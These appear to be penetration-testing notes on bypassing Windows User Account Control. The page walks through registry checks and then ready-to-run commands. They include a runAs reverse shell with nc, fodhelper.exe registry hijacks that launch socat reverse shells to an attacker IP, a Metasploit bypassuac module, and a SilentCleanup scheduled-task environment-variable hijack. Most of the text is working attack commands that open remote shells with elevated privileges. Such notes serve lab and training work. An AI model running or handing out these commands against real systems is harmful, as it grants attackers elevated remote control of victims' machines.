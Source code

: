 ```yaml
---
description: >-
  The UAC bypass is needed in the following situation: the UAC is activated,
  your process is running in a medium integrity context, and your user belongs
  to the administrators group.
---
```


# UAC Bypass

### Enumeration

Confirm UAC by reading the registry.&#x20;

```bash
CMD> reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Now notice the three highlighted keys above and their values:

1. `EnableLUA` tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys
2. `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3. `PromptOnSecureDesktop` is binary, either 0 or 1.

Also confirm if you have this type of situation that your process is running on an administrative accout but in a standard user context.&#x20;

```
whoami /priv
whoami /groups | findstr /i admin
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### UAC disabled

If UAC is already disabled (`ConsentPromptBehaviorAdmin` is **`0`**) you can **execute a reverse shell with admin privileges** (high integrity level) using something like:

{% code overflow="wrap" %}
```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```
{% endcode %}

### Exploitation

#### Manual - fodhelper.exe (Defender might come in and catch this registry modification)

{% code overflow="wrap" %}
```bash
# @Target
CMD> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
CMD> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.2.54.119:4444 EXEC:cmd.exe,pipes"
CMD> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
CMD> reg add %REG_KEY% /d %CMD% /f

# @ Kali
Kali> rlwrap nc -nlvp 4444

# @Target
CMD> fodhelper.exe
```
{% endcode %}

#### Manual - PowerShell (Better) &#x20;

{% code overflow="wrap" %}
```bash
CMD> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.2.54.119:4445 EXEC:cmd.exe,pipes"
CMD> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
CMD> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

# @Kali
Kali> rlwrap nc -nlvp 4444

# @Target
CMD> fodhelper.exe
```
{% endcode %}

#### Metasploit

```
msf6 > use exploit/windows/local/bypassuac_eventvwr
```

The easiest way of manual UAC bypass is simply uploading `bypassuac-x86.exe` or `bypassuac-x64.exe` and execute it. Locate these two executables in your system:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Bypassing Always Notify

If UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. We'll be abusing a scheduled task that can be run by any user but will execute with the highest privileges available to the caller.&#x20;

Scheduled tasks are an exciting target. By design, they are meant to be run without any user interaction (independent of the UAC security level), so asking the user to elevate a process manually is not an option. Any scheduled tasks that require elevation will automatically get it without going through a UAC prompt.

{% code overflow="wrap" %}
```bash
# @Kali
nc -lvp 4446

# @Target
CMD> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.2.54.119:4446 EXEC:cmd.exe,pipes &REM " /f
CMD> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
{% endcode %}
